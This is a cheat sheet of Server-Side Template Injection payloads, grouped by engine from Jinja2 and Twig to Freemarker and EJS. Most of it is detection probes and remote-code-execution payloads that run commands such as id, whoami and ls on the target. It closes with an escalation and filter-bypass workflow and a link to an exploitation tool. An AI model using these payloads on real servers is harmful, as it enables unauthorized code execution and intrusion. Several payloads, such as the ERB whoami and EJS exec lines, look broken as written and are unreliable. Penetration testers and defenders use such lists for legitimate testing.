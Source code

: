 Server-Side Template Injection (SSTI) vulnerabilities occur when user input is embedded into templates and evaluated by a server. Exploiting SSTI vulnerabilities allows attackers to execute arbitrary code on the server. Here's a list of useful SSTI cheat sheets, categorized by popular templating engines.

here is some of server-side based Template Engine:
	"Jinja2 or Jinja, Freemaker, Mako, Velocity, Smarty, Tornado, Genshi, Twig, Mustache, etc."

Here are some cheat sheet payloads for different languages and Template Engines:
 General SSTI Detection

    Detection Payloads:
        Test for template engine:
            {{7*7}} for Jinja2/Django
            ${{7*7}} for Freemarker, Velocity, Thymeleaf
            <%= 7*7 %> for JSP
            #{7*7} for Ruby
        Result: 49 in the output indicates a possible SSTI.

Python (Jinja2, Django)

    Basic payloads:
        {{7*7}}
        {{request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()}}
        {{config.items()}}
    Remote Code Execution:
        {{ ''.__class__.__mro__[1].__subclasses__()[284]('id',shell=True,stdout=-1).communicate()[0].strip() }}

Ruby on Rails (ERB)

    Basic payloads:
        <%= 7*7 %>
        <%= whoami %>
    Remote Code Execution:
        <%= Kernel.exec("ls") %>

PHP (Smarty, Twig)

    Smarty:
        {php} echo ls; {/php}
        {system('ls')}
    Twig:
        {{7*7}}
        {{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('id')}}
        {{["id"]|filter("system")}}

Java (Thymeleaf, Freemarker, Velocity)

    Thymeleaf:
        ${{T(java.lang.Runtime).getRuntime().exec("id")}}
    Freemarker:
        ${"freemarker.template.utility.Execute"?new()("id")}
    Velocity:
        #set($str=$class.inspect("java.lang.Runtime").getRuntime().exec("id"))

Node.js (Pug, EJS)

    Pug:
        #{7*7}
        - var exec = require('child_process').exec; exec('id', function(err, stdout) { console.log(stdout) })
    EJS:
        <%= exec('id') %>

Detection Payload Workflow

    Initial test: Try simple arithmetic (e.g., {{7*7}}) to confirm that the input is processed by a template engine.
    Escalation: Use code execution payloads based on the template engine identified.
    Filter Bypass: Try obfuscating payloads or chaining functions to bypass filters.

Tools:
    [Tplmap: Automated tool to exploit SSTI vulnerabilities.](https://github.com/epinna/tplmap)
